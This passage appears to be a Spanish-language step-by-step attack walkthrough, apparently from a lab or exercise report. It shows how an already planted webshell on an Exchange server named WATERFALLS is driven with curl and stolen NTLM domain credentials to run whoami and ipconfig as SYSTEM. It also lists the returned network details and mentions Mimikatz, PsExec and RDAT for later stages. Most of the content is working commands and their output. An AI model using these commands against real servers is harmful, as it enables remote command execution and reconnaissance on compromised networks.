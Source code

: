 Este directorio contiene herramientas adicionales que se utilizarán en pasos posteriores (Mimikatz, PsExec, RDAT).

**Comando 1: Identificación del Usuario Actual**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=whoami" \
     https://10.1.0.6/ews/contact.aspx
```

**Desglose técnico:**
- `--http1.1`: Forzar protocolo HTTP/1.1 (compatibilidad con Exchange/IIS)
- `--ntlm`: Especificar autenticación NTLM de Windows
- `-u 'boombox\gosta:...'`: Credenciales de dominio robadas en Paso 3
- `-k`: Ignorar validación de certificado SSL (certificado auto-firmado)
- `-X POST`: Método HTTP POST
- `--data "pro=cmd.exe"`: Parámetro que especifica el programa a ejecutar
- `--data "cmd=whoami"`: Parámetro con el comando a pasar a cmd.exe

**Respuesta esperada:**
```
nt authority\system
```

**Análisis del resultado:**
- El webshell ejecuta con privilegios máximos de Windows
- SYSTEM tiene control completo sobre el servidor Exchange
- Permite operaciones que requieren privilegios administrativos

**Comando 2: Configuración de Red del Servidor**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=ipconfig /all" \
     https://10.1.0.6/ews/contact.aspx
```

**Información obtenida:**
```
Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  : boombox.local
   IPv4 Address: 10.1.0.6
   Subnet Mask: 255.255.255.0
   Default Gateway: 10.1.0.1
   DNS Servers: 10.1.0.4 (DISKJOCKEY)

   Host Name: WATERFALLS
   Primary Dns Suffix: boombox.local
```

**Valor táctico:**
- Confirma la dirección IP del servidor (10.1.0.6)
- Identifica la infraestructura DNS (controlador de dominio)
- Confirma pertenencia al dominio boombox.local
- Mapea la topología de red
